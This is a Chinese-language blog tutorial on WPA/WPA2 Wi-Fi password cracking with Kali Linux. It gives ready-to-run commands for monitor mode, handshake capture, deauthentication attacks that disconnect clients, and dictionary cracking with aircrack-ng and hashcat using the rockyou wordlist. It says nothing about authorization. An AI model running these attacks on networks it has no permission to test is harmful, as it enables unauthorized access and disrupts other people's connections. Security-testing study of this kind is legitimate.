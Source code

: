 ```yaml
---
title: wlan密码安全测试
date: 2022-01-31 15:38:06
---
```


## 环境
1. Kali Linux（推荐），该系统预装了用到的所有工具，或者其它基于debian的GUN/Linux也是可以的，需要手动安装[Aircrack-ng](http://aircrack-ng.org/),`sudo apt-get install aircrack-ng`
>为了方便可以将系统安装到优盘（[安装文档](https://www.kali.org/docs/usb/live-usb-install-with-windows/)），奇怪的是，使用官方推荐的工具[etcher](https://github.com/balena-io/etcher/releases)、[rufus](https://rufus.ie/zh/)制作的优盘，在UEFI+GPT方式的引导下并没有成功进入系统，后来使用了Win32DiskImager并关闭了BIOS的安全启动才成功进入系统。
**注意：**使用Win32DiskImager制作启动盘会对优盘的容量有折损，建议使用闲置的优盘。

2. 一个支持[监听模式](https://en.wikipedia.org/wiki/Monitor_mode)的无线网卡（一般笔记本自带的就可以），台式机的话可以买个外置无线网卡，[支持的设备](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

## 渗透过程
### 开启网卡监听
```
# 列出支持Monitor_mode的接口
airmon-ng
# 开启网卡监听模式
airmon-ng start wlan0
# 查看处于监听的接口
iwconfig
```

### 扫描你要破解的网络

```
airodump-ng wlan0mon
```
`ctrl+c`退出扫描，记下你要破解无线的BSSID MAC地址和channel，后面会用到


### 捕获握手包

WAP/WAP2是用[4-way handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk)验证网络设备的，我们需要捕获到其中的一次握手来破解密码。
```
# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w handshake mon0
```
当屏幕上出现类似`[ WPA handshake: bc:d3:c9:ef:d2:67`的字符串时，说明捕获成功，此时会在当前目录下生成handshake-01.cap文件，我们需要这个文件进行破解。
>此方式需要等有设备连接时才会捕获到握手包，但是我们可以通过以下方式，来促使这一过程的完成

### Deauth Attack
可以伪造一个forged deauthentication packets取消验证的数据包发给终端。
```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```

### 解密

```
# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```
等待出现`KEY FOUND!`时，则成功解密

### hashcat解密
[hashcat](https://github.com/hashcat/hashcat)是世界上最快，最先进的密码恢复实用程序，支持五种独特的攻击模式，适用于300多种高度优化的哈希算法。hashcat 目前在 Linux、Windows 和 macOS 上支持 CPU、GPU 和其他硬件加速器，并具有帮助启用分布式密码破解的功能。

* 通过[cap2hccapx](https://hashcat.net/cap2hccapx/)将cap文件转化为hashcat需要的格式
* 通过[example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes),搜索wap加密的Hash-Mode

```
# -m 指定hash-mode -a 指定攻击模式
hashcat -m 22000 -a 0 ${破解文件} ${字典}
```

